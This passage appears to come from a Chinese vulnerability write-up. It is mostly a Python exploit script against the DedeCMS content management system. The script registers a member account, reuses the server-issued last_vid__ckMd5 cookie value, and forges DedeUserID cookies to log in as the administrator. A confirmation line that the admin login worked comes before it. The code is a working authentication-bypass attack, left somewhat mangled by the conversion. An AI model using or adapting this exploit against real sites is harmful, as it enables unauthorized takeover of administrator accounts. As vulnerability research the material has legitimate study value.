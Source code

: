 可以看到，登陆了admin用户。

### python脚本

```
 # coding=utf-8

import requests

import re

if **name** == “**main**”:

dede_host = “[http://127.0.0.1/](http://127.0.0.1/)”

oldpwd = ‘123456’

newpwd = “cnvdcnvd”

s = requests.Session()

```
if '系统关闭了会员功能' in requests.get(dede_host + 'member/reg_new.php').content:
    exit('The system has closed the member function .Can not attack !!!')
else:
    print "The system opened the membership function, I wish you good luck  !!"

headers = {"Referer": dede_host + "member/reg_new.php"}
rs = s.get(dede_host + 'include/vdimgck.php').content
file = open('1.jpg', "wb")
file.write(rs)
file.close()

vdcode = raw_input("Please enter the registration verification code : ")

userid = '0000001'
uname = '0000001'
userpwd = '123456'

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0)",
           "Content-Type": "application/x-www-form-urlencoded"}
data = "dopost=regbase&amp;step=1&amp;mtype=%E4%B8%AA%E4%BA%BA&amp;mtype=%E4%B8%AA%E4%BA%BA&amp;userid={userid}&amp;uname={uname}&amp;userpwd={userpwd}&amp;userpwdok={userpwd}&amp;email=0000001%400000001.com&amp;safequestion=0&amp;safeanswer=&amp;sex=%E7%94%B7&amp;vdcode={vdcode}&amp;agree=".format(
    userid=userid, uname=uname, userpwd=userpwd, vdcode=vdcode)
rs = s.post(dede_host + '/member/reg_new.php', data=data, headers=headers)
if "验证码错误" in rs.content:
    exit("Verification code error, account registration failed")
elif '注册成功' in rs.content:
    print 'registration success !!'

rs = s.get(dede_host + "/member/index.php?uid={userid}".format(userid=userid))
if "资料尚未通过审核" in rs.content:
    exit("User information has not been approved !!!")  # 会员使用权限开通状态(-10 邮件验证 -1 手工审核, 0 没限制)：
searchObj = re.search(r'last_vid__ckMd5=(.*?);', rs.headers['Set-Cookie'], re.M | re.I)
last_vid__ckMd5 = searchObj.group(1)
s.cookies['DedeUserID'] = userid
s.cookies['DedeUserID__ckMd5'] = last_vid__ckMd5
rs = s.get(dede_host + "/member/index.php")
if "class=\"userName\"&gt;admin&lt;/a&gt;" in rs.text:
    print "Administrator login successful !!"
